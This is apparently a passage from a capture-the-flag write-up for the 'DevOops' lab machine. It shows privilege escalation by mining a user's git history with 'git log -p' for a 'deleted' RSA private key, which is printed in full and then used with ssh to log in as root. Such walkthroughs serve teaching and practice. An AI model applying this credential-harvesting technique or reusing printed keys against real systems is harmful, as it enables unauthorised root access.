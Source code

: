 # Privilege Escalation

Roosa has a git directory at /home/roosa/work/blogfeed/.git. It’s usually a good idea to search this folder for previous commits, branches and so forth. As Github repositories have all their changes documented, it’s often possible to find sensible data that was previously “deleted” by the thoughtful developers.  
Running *git log -p* inside the .git folder, we can see logs of previous commits.  
[More about .git dumping](https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/)

<figure>
  <img src="{{site.baseurl}}/img/GitLogDevoops.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/GitLogDevoops.png" title="Dumping Git Data from Misconfigured Web Servers">Dumping Git Data from Misconfigured Web Servers</a>
  </figcaption>
</figure> 

And finally, we got the original RSA Key.   
Copy it into the notepad, remove + signs and save it as a root.key file; to then connect by ssh to the machine with the root user.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/devoops]─[root@Arthorias]─[0]─[4454]
╰─[:)] # cat > keyroot 
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
vr+5Ui0nD+YBKyYuiN+4CB8jSQvwOG+LlA3IGAzVf56J0WP9FILH/NwYW2iovTRK
nz1y2vdO3ug94XX8y0bbMR9Mtpj292wNrxmUSQ5glioqrSrwFfevWt/rEgIVmrb+
CCjeERnxMwaZNFP0SYoiC5HweyXD6ZLgFO4uOVuImILGJyyQJ8u5BI2mc/SHSE0c
F9DmYwbVqRcurk3yAS+jEbXgObupXkDHgIoMCwIDAQABAoIBAFaUuHIKVT+UK2oH
uzjPbIdyEkDc3PAYP+E/jdqy2eFdofJKDocOf9BDhxKlmO968PxoBe25jjjt0AAL
gCfN5I+xZGH19V4HPMCrK6PzskYII3/i4K7FEHMn8ZgDZpj7U69Iz2l9xa4lyzeD
k2X0256DbRv/ZYaWPhX+fGw3dCMWkRs6MoBNVS4wAMmOCiFl3hzHlgIemLMm6QSy
NnTtLPXwkS84KMfZGbnolAiZbHAqhe5cRfV2CVw2U8GaIS3fqV3ioD0qqQjIIPNM
HSRik2J/7Y7OuBRQN+auzFKV7QeLFeROJsLhLaPhstY5QQReQr9oIuTAs9c+oCLa
2fXe3kkCgYEA367aoOTisun9UJ7ObgNZTDPeaXajhWrZbxlSsOeOBp5CK/oLc0RB
GLEKU6HtUuKFvlXdJ22S4/rQb0RiDcU/wOiDzmlCTQJrnLgqzBwNXp+MH6Av9WHG
jwrjv/loHYF0vXUHHRVJmcXzsftZk2aJ29TXud5UMqHovyieb3mZ0pcCgYEAxR41
IMq2dif3laGnQuYrjQVNFfvwDt1JD1mKNG8OppwTgcPbFO+R3+MqL7lvAhHjWKMw
+XjmkQEZbnmwf1fKuIHW9uD9KxxHqgucNv9ySuMtVPp/QYtjn/ltojR16JNTKqiW
7vSqlsZnT9jR2syvuhhVz4Ei9yA/VYZG2uiCpK0CgYA/UOhz+LYu/MsGoh0+yNXj
Gx+O7NU2s9sedqWQi8sJFo0Wk63gD+b5TUvmBoT+HD7NdNKoEX0t6VZM2KeEzFvS
iD6fE+5/i/rYHs2Gfz5NlY39ecN5ixbAcM2tDrUo/PcFlfXQhrERxRXJQKPHdJP7
VRFHfKaKuof+bEoEtgATuwKBgC3Ce3bnWEBJuvIjmt6u7EFKj8CgwfPRbxp/INRX
S8Flzil7vCo6C1U8ORjnJVwHpw12pPHlHTFgXfUFjvGhAdCfY7XgOSV+5SwWkec6
md/EqUtm84/VugTzNH5JS234dYAbrx498jQaTvV8UgtHJSxAZftL8UAJXmqOR3ie
LWXpAoGADMbq4aFzQuUPldxr3thx0KRz9LJUJfrpADAUbxo8zVvbwt4gM2vsXwcz
oAvexd1JRMkbC7YOgrzZ9iOxHP+mg/LLENmHimcyKCqaY3XzqXqk9lOhA3ymOcLw
LS4O7JPRqVmgZzUUnDiAVuUHWuHGGXpWpz9EGau6dIbQaUUSOEE=
-----END RSA PRIVATE KEY-----

╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/devoops]─[root@Arthorias]─[255]─[4451]
╰─[:(] # chmod 600 keyroot
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/devoops]─[root@Arthorias]─[255]─[4453]
╰─[:(] # ssh -i keyroot root@10.10.10.91   
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.
